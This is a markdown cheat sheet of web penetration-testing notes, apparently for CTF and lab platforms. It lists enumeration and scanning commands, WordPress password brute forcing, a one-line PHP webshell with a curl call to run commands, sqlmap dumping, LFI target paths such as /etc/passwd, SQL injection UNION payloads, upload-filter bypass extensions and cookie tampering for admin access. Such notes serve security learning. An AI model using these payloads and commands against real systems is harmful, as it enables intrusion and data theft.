 ### Enumeration
- assetfinder
- subfinder
  - `subfinder -d url -o filename`
- Amass
  - `amass enum- d url`
- crt.sh
- dirbuster
- theHarvester
- httprobe - validate what is live
- gobuster
  - `gobuster dir -u http://10.10.10.10:port -w /usr/share/wordlists/dirb/big.txt`
- builtwith
- wappalyzer
  - software vulns
- Nikto
  - `nikto -h -10.10.10.10 -p 80,8080,1234`
- wpscan
  - `wpscan --update`
  - `wpscan --url <ip>`
  - `wpscan --url [url] --enumerate [p/vp/ap/t/vt/at] --plugins-detection aggressive`
  - `wpscan --url [target URL] --enumerate u`
  - `wpscan --url http://internal.thm/blog/ --passwords /opt/wordlists/rockyou.txt`
  - upload shell to WP_dashboard
- nmap scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
- GTFOBins
- sitemap.xml - add to end of url
  - `http://10.10.10.10/sitemap.xml`
- curl pages
- 
### webshell php

- `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`
- `curl http://SERVER_IP:PORT/shell.php?cmd=id`
- or upload reverse shell to be executed
  
### Options
- View contents of mysql files
  - Example: /content/inc/mysql_backup could contain .sql backup file with user hashes
-  Brute force
  - *reference username&password page*
- sqlmap
  - copy login portal post request from burp -> sqlmap.txt
  - `sqlmap -r sqlmap.txt --dump`
  - check for any interesting tables
- source code and inspect 
- LFI
  - Directories
    - /etc/passwd
    - /var/log/apache2/access.log
    - C:\Windows\System32\drivers\etc\hosts
- SQL Injection
  - Union
    - `' UNION SELECT NULL,NULL,NULL--`
    - `' UNION SELECT 'a',NULL,NULL,NULL--`
  - Bind
  - XXS
- Command Injection
- File Upload
  - .php5, .shtml, php.jpg, php%00.jpg
- Auth
- IDOR
  - attempt to manipulate url (such as an id number)
  - view post/get requests - data, query strings, cookies
    - decode, change it, and recode
- XXE
  - Reflected - comes from current HTTP request
  - Stored - comes from websites database
  - DOM-based - comes from client side code rather than service-side code
- Uniscan for LFI, RFI and RCE vulnerabilities
  - `uniscan -u http://10.10.10.10/ -qd`
- vuln scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
  - nikto -h $ip
    - very loud and obvious

#### Cookies
- `curl http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=false" http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=true" http://10.10.10.10/cookie-test`
- attempt to crack hashed cookies or decode encoded cookies

#### Favicon
- can view favicon hash and see if there are vulns
- `curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum`
- visit: https://wiki.owasp.org/index.php/OWASP_favicon_database
